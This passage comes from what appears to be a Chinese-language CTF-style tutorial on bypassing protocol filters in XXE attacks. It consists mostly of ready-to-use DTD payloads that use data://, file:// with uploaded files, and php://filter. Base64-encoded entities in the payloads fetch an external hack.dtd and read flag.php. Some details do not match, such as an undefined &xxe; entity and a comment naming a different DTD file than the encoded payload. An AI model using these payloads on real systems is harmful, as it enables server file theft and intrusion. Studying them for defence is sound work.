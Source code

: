 如果是过滤了http等协议，可以利用实体编码绕过，在前面的XXE利用方式中有用过。

### 其他协议绕过

如果http被过滤，无法上传XML文件，可以用`file://`、`php://filter`、`data://`

- **`data://`**

  ```xml-dtd
  <?xml version="1.0" ?>
  <!DOCTYPE test [
      <!ENTITY % a SYSTEM "data://text/plain;base64,PCFFTlRJVFkgJSAgYiBTWVNURU0gJ2h0dHA6Ly8xMjcuMC4wLjEvaGFjay5kdGQnPg=="> 
      %a; 
      %b; 
  ]>
  <test>
      &xxe;
  </test>
  
  <!--编码内容-->
  <!ENTITY % b SYSTEM 'http://127.0.0.1/test.dtd'>
  ```

  然后使用data协议上传：`?text=data://text/plain,代码内容`

- **`file://`加文件上传**

  ```xml-dtd
  <?xml version="1.0" ?>
  <!DOCTYPE test [
      <!ENTITY % a SYSTEM "file:///var/www/uploads/1.jpg">
      %a;
  ]>
  
  <!--上传文件1.jpg，内容如下-->
  <!ENTITY % b SYSTEM 'http://192.168.1.1:8080/hack.dtd'>
  ```

- **`php://filter`协议加文件上传**

  ```xml-dtd
  <?xml version="1.0" ?>
  <!DOCTYPE test [ 
      <!ENTITY % a SYSTEM "php://filter/read=convert.base64-decode/resource=/var/www/uploads/test.jpg">
      %a;
  ]>
  <test>
      &xxe;
  </test>
  
  <!--上传文件test.jpg，内容如下-->
  <!--base64编码内容-->
  PCFFTlRJVFkgaGhoIFNZU1RFTSAncGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPS4vZmxhZy5waHAnPg==
  ```
